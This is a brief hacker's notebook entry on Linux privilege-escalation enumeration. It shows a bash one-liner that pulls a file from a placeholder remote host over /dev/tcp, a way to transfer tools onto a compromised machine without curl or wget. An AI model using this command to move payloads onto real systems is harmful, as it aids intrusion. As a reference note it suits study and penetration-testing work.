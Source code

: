# linux enumeration quick commands transfer / download files with just bash receive
```bash
LHOST=1.2.3.4
LPORT=443
bash -c "cat < /dev/tcp/$LHOST/$LPORT" > filename
```

` zet/20221003150906/README.md `

# Related

- [20221003150907](/zet/20221003150907/README.md) linux enumeration quick commands transfer / download files with just bash
- ~/kb/hacking/priv-esc/enumeration-quick-commands.md

Tags:

    #command #hacking #privesc #enumeration 
